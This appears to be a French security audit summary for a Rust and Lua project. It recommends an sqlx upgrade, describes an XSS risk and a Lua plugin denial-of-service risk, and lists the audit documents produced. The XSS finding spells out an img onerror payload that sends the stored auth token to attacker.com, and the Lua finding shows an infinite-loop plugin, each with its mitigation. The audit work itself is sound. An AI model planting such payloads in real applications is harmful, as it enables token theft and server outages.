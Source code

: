 **Description**: sqlx 0.7 a un bug de misinterprétation du protocole PostgreSQL binaire.

**Affecté**: `backend-rust-db/Cargo.toml`

**Fix**: Upgrade à 0.8.1+

```bash
cargo update sqlx
```

---

### XSS via localStorage

**Vecteur d'attaque**:
1. Attaquant injecte: `<img src=x onerror="fetch('http://attacker.com?token='+localStorage.getItem('auth_token'))">`
2. Token volé envioyé à serveur attaquant
3. Utilisation du token pour usurper l'identité

**Mitigation**: Utiliser cookies `HttpOnly; Secure; SameSite=Strict`

---

### DoS via Plugin Lua

**Vecteur d'attaque**:
```lua
-- Plugin malveillant dans IMPLEMENTATION.md
while true do end -- Boucle infinie
```

**Impact**: Serveur gelé, services indisponibles

**Mitigation**:
- Ajouter timeout (5s)
- Limiter mémoire (10MB)
- Limiter instructions (1M)

---

## 📚 Documentation Créée

1. **AUDIT_COMPLET.md** (22 pages)
   - Analyse détaillée par phase
   - Explications techniques
   - Impacts et recommandations

2. **FIXES_RAPIDES.md** (15 pages)
   - 10 fixes prioritaires avec code
   - Plan d'implémentation
   - Validation checklist

3. **AUDIT_RÉSUMÉ.md** (ce document)
   - Vue d'ensemble executive
   - Statistiques globales
   - Recommandations

---